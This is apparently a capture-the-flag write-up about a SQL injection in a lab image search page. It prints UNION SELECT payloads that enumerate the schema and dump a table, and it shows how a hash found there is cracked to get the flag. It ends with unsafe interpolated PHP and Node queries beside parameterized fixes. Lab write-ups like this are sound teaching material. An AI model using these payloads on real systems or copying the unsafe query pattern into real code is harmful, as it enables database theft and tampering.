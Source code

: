 # Image Search Engine SQL injection

## How we found the breach

Before reading this breach explanation please have a look to this breach before:

[SQL injection on members table explanation →](../../sql_injection_members_table/Ressources/Explanation.md)

The principle is same as for the members SQL breach.
As in the previous SQL injection we achieved to retrieve the whole database Tables and Columns.
Images table is not spared:

```sql
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : id
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : url
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : title
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : comment
```

`list_images` table has 4 columns:
- id
- url
- title
- comment

### UNION SELECT and CONCAT SQL injection

We will then retrieve all the table's entries with all their fields.

Input:
```sql
-1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images
```

Output:
```sql
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 1https://fr.wikipedia.org/wiki/Programme_NsaAn image about the NSA !
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 2https://fr.wikipedia.org/wiki/Fichier:4242 !There is a number..
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 3https://fr.wikipedia.org/wiki/Logo_de_GoGoogleGoogle it !
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 4https://en.wikipedia.org/wiki/Earth#/medEarthEarth!
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 1
```

We can see that the last image contains a hash to handle `1928e8083cf461a51303633093573c46`.

#### Retrieving the flag

Via md5 decrypt of `1928e8083cf461a51303633093573c46` contained in the `comment` list_images table column that leads to `albatroz`.

Hashing using sha256 the `albatroz` results in `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188` which is our flag.

## How to exploit the breach

Having a SQL injection breach can lead to be leaking the whole database entries, involving users' personal information, emails, password, etc. 

But not only about stealing data, a hacker could even insert entries in a specific table, for example to add credits to his account. A hacker could even delete all the entries of a table – let's hope you made regular backups of your database.

## How to avoid this breach

A solution to avoid this kind of breach would be to escape received image id using either your native database escaping tools or manually.

An other solution would be to use an ORM that will natively prevent SQL injections.

You could also define restricted accesses to the connection to the database: restricted access to only a few tables, no deletion permission, no reading permission for critical tables, etc.

### PHP Example

Unsecured sql querying:

```php
$statement = $dbh->prepare("select comment, url from list_images where list_images.id = {$id}");
$statement->execute();
```

Secured sql querying:

```php
$statement = $dbh->prepare("select comment, url from list_images where list_images.id = ?");
$statement->execute([$id]);
```

### Node Example

Unsecured sql querying:

```js
connection.query(
  `select comment, url from list_images where list_images.id = ${id}`,
  function(err, rows, fields) {
    // Do something with the retrieved data.
  });

```

Secured sql querying:

```js
connection.query(
  'select comment, url from list_images where list_images.id = ?',
  [id],
  function(err, rows, fields) {
    // Do something with the retrieved data.
  });
```
